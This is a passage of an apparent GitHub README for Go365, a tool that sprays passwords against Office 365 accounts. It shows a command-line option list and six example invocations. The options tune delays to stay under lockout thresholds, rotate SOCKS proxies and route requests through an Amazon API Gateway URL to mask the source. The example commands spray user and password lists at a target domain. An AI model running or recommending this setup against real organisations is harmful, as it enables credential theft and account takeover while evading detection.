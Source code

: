 ```
    -d <string>                 Domain to test
                                : Use this if the username or username list does not include "@targetcompany.com"
                                : (-d targetcompany.com)

  Optional:

    -w <int>                    Time to wait between attempts in seconds.
                                : Default: 1 second. 5 seconds recommended.
                                : (-w 10)

    -delay <int>                Delay (in seconds) between sprays when using a password list.
                                : Default: 60 minutes (3600 seconds) recommended.
                                : (-delay 7200)

    -o <string>                 Output file to write to
                                : Will append if file exists, otherwise a file is created
                                : (-o ./Go365output.out)

    -proxy <string>             Single proxy server to use
                                : IP address and Port separated by a ":"
                                : Has only been tested using SSH SOCKS5 proxies
                                : (-proxy 127.0.0.1:1080)

    -proxyfile <string>         A file with a list of proxy servers to use
                                : IP address and Port separated by a ":" on each line
                                : Randomly selects a proxy server to use before each request
                                : Has only been tested using SSH SOCKS5 proxies
                                : (-proxyfile ./proxyfile.txt)

    -url <string>               Endpoint to send requests to
                                : Amazon API Gateway 'Invoke URL'
                                : Highly recommended that you use this option.
                                : (-url https://kg98agrae3.execute-api.us-east-2.amazonaws.com/login)

    -debug                      Debug mode.
                                : Print xml response
```

### Examples

```
./Go365 -endpoint rst -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
./Go365 -endpoint graph -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
./Go365 -endpoint rst -up ./userpass_list.txt -delay 3600 -d pwnthisfakedomain.com -w 5 -o Go365output.txt
./Go365 -endpoint graph -u legituser -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
./Go365 -endpoint rst -u legituser -pl ./pass_list.txt -delay 1800 -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt
./Go365 -endpoint graph -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login 
```
